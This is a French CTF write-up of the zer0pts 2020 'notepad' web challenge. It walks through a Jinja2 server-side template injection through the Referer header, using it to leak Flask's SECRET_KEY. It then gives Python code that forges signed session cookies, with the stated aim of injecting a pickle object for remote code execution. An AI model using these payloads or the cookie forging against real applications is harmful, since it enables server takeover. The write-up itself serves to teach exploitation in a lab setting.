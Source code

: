 ```yaml
---
layout: post
title: zer0pts CTF 2020
---
```


Bonjour à tous,
ce premier article de ChaigncHackademy a pour objectif d'expliquer la solution d'un des challenges que l'équipe a résolu lors de la compétition CTF japonaise nomée zer0pts. L'équipe a donc terminé en 50em position sur cette compétition de niveau international regroupant plus de 500 équipes dans le monde entier.

![_config.yml]({{ site.baseurl }}/images/ctf/zer0pts_2020/scoreboard.png)

# zer0pts web 2020 : notepad 326

**Category:** web |
**Name:** notepad |
**Solves:** 50 |
**Description:** Remote Code Execution d'un serveur web python

*TLDR: we exploited a restricted SSTI to leak SECRET_KEY, then we use SECRET_KEY to forge Flask cookie. Within the session cookie we inject a python pickle object to archieve RCE.*

*Article à but educationel uniquement.*

## Intro
Notepad est un challenge web intéressant pour commencer car on dispose du code source, qui est téléchargeable ici si vous désirez expérimenter également.
Ce code app.py deploie une application python web grâce au framework Flask.

L'objectif est de prendre le controle du serveur en combinant deux vulnérabilités et ensuite lire le fichier flag.txt sur le serveur pour valider le challenge.

## 1 ) La vulnérabilité SSTI: Server Side Template Injection
Lors d'une erreur 404, le code suivant est utilisé. Ce code dispose d'une vulnerabilité classique assez connue.

```python
html = '<html><head><meta http-equiv="Refresh" content="3;URL={}"><title>404 Not Found</title></head><body>Page not found. Redirecting...</body></html>'.format(referrer)

return flask.render_template_string(html), 404
```
Il s'agit d'une vulnerabilité du type SSTI: Server Side Template injection. En effet Flask permet l'utilisation de jinja2 pour générer du code html à partir d'un template, ces templates peuvent également contenir du code python. Donc un utilisateur controlant le contenu d'un de ces templates peut forcer l'execution de code python coté serveur.

#### Referer
Dans ce code le paramètre de la fonction **flask.render_template_string** est formaté avec le **referer**. Donc en injectant le **referer** par exemple avec le payload ```{{7*7}}``` on se retrouve avec 49 affiché sur la page car jinja2 interpréte en python tout ce qui se trouve entre ```{{``` et ```}}```.

![_config.yml]({{ site.baseurl }}/images/ctf/zer0pts_2020/referer.png)

Habituellement une vulnérabilité du type SSTI est suffisante pour prendre le controle total du seveur (RCE) mais avec ce challenge nous sommes limités au niveau des payloads autorisés. Par contre le payload ```{{config}}``` permet d'afficher les informations de configuration du service Flask, parmi ces informations se trouve ```SECRET_KEY = '\\\xe4\xed}w\xfd3\xdc\x1f\xd72\x07/C\xa9I'```.

### Flask session
Le cookie de session de Flask ressemble a ci-dessous.
```sh
Cookie: session=.eJyNjN0KgkAQhV8l9gn8qRuhi8QdyWhlR2fNuTM2CF0lMBSK3j2UHqDLc77znbcYm-lmm2cjorfYXEUk2IOcU4W6dS2RmYwHqAli3T-5gmysfThVZMKlQ-nCsnrEVvqyvKDCVA2lQVadL_nFqunvW13CgItP0KFfeyzvgMbG6ydlW-14wO7Hg3muO1vdZDZy4NYNtYcdgZ5zE9M5cdokf-eikObIYMHq_V58Pl-KuEwD.EUVOgw.MrDJ86YWh82ztUne1EVterQh-qQ
```
Ce cookie est serialisé, salé, chiffré, signé puis encodé par Flask, il n'est donc pas possible pour un utilisateur de créer un cookie valide sans connaitre la clef de chiffrement secrete utilisé par Flask. Forte heureusement nous avons avec la SSTI trouvé la clef de chiffrement utilisée ```SECRET_KEY```.

Pour comprendre quels algorithmes Flask utilise pour forger ses cookies je vous invite à lire le code source du framework [directement ici](https://github.com/pallets/flask/blob/master/src/flask/sessions.py#L339). Flask repose sur la librairie itsdangerous.


Une fois ces algorithmes assimilés vous pouvez utiliser directement les fonctions de Flask pour serialiser et deserialiser des cookies avec le ```SECRET_KEY```
```python
import pickle
import base64
from flask.sessions import SecureCookieSessionInterface

class FlaskMockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key

def session_cookie_encoder(secret_key, session_cookie_structure):
    try:
        app = FlaskMockApp(secret_key)
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)

        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error]{}".format(e)
```

Une fois ceci réalisé nous pouvons altérer le contenu des cookies.
```python
SECRET_KEY = b'\\\xe4\xed}w\xfd3\xdc\x1f\xd72\x07/C\xa9I'
cookie = [{'date': '2020-03-07 16:08:28', 'text': '', 'title': 'ChaigncHackademy'}]
cookie = base64.b64encode(pickle.dumps(cookie))
cookie = {'savedata': cookie}
cookie = session_cookie_encoder(SECRET_KEY, cookie)
print('Created Cookie', cookie)
# Created Cookie .eJwtjEsKwjAUAK8iOUFjuyp0U8hrjRjJI5_27SIRiv0JlRYU7y6K2xlmXmwJ6zWGR2D5i-0uLGeUwJkqhfo23Kx1q0sAtYVSjw_yIJeWw9Fbl34ZiiE1_l5GwYVpUGGlJuOQVM8FPUmFscu0gQm_vYUeeZuQ6ABdLH9PKzM90IT93--3re2jvwq5EP-x0ho5hwoaqh2dqm72RiYB7rWbcPDCHQgiRF0U7P3-ALFiQoI.EUcu3w.AsfNxH-1DQkNW8LGNadRGYmYi8E
```
